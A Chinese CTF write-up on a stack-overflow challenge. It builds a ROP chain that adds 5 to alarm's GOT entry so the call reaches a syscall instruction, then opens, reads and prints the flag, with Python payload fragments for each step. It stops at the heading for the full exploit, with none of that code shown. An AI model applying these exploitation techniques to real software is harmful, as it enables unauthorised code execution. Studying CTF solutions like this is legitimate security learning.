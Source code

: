 看起来是一个简单的程序，可以溢出任意字节长度。但是溢出点在while循环中，这样就有一个问题，如何跳出循环？

pwntools有一个shutdown可以用来关闭流，但是在关闭流之后，程序就停止了运行，就像你在终端使用了`ctrl`+`D`。一次性要完成所有操作，那么暴露地址的方式肯定不能完成，幸运的是，我们可以使用系统调用(syscall)。对于有些系统,system 也可以用系统调用,而对于有些系统则不行，因此，我们这里不再 geshell，我们直接读取 flag，然后打印出来。

思路：open打开文件，用read读取flag，使用printf打印出来。

**open("flag","r")**

通过修改got表的方式调用open，

```assembly
.text:000000000040070D                 align 2
.text:000000000040070E                 dw 0C307h
```

**这里有一个这样的指令，将它undefine，然后code**，就变成了这样

```assembly
.text:000000000040070D                 add     [rdi], al
.text:000000000040070F                 retn
```

很神奇，大师傅只说是经验，具体的原理也不太清楚~~记下来就好。。。

add命令将rdi地址对应的值加上al所保存的值。那么，如果 rdi 里存储着 alarm 的 GOT 表地址， 那么 add [rdi],al 就是把 GOT 表里指向的地址向后偏移 al，由于 alarm 函数向后偏移 0x5 个字 节处调用了 syscall，因此，如果我们的 al 为 0x5，那么，add 指令执行后，我们的 alarm 函 数 GOT 表里的地址就指向了 syscall 的调用处，那么我们调用 alarm 也就是调用 syscall，我 们只需在之前传入 eax（系统调用号），就可以调用我们需要的系统调用。

flag字符串可以在程序种找到，r对应的字符标识符为0

（这个题似乎应该给一下libc的，但是并没有。。）

```python
#hack got
payload='a'*0x38+p64(pop_rdi)+p64(alarm_got)+p64(pop_rax)+p64(5)+p64(add_rdi)
#open flag r
payload+=p64(pop_rdi)+p64(flag)+p64(pop_rsi)+p64(0)+p64(0)+p64(pop_rax)+p64(2)+p64(alarm_plt)
```

**read(flag, bss,  100)**

打开之后将flag读到程序的bss段，调用read函数。打开的第一个文件标识符为3。

```python
#read(3,bss,100)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(bss)+p64(0)+p64(pop_rdx)+p64(100)+p64(read_plt)
```

**printf(flag)**

不用控制所有的参数，直接传入flag地址就行。

```python
#printf(flag)
payload+=p64(pop_rdi)+p64(bss)+p64(printf_plt)
```

## exp

完整exp如下：

